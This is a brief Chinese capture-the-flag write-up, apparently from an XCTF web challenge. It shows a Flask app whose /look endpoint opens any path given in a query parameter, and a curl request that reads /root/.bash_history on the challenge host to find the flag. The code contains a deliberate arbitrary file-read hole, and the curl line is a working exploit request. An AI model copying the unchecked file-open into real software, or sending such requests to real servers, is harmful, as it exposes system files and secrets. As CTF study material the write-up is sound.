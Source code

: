 提供了个任意文件读的接口/look?file=/app/app.py

```
from flask import Flask,Response, request
 
app = Flask(__name__)
 
 
@app.route('/', methods=['GET', 'POST'])
def index():
    return "flag被我藏起来了,/look一下file看看呢"
@app.route('/look', methods=['GET', 'POST'])
def readfile():
    if request.values.get('file'):
        file = request.values.get('file')
        f= open(file,encoding='utf-8')
        content=f.read() 
        f.close()
        if 'flag' in content:
            return  "打卡下班"+content
        else:
            return  "抓紧找，着急下班"+content
   

```



curl http://web-486382f20515.challenge.xctf.org.cn/look?file=/root/.bash_history
找到flag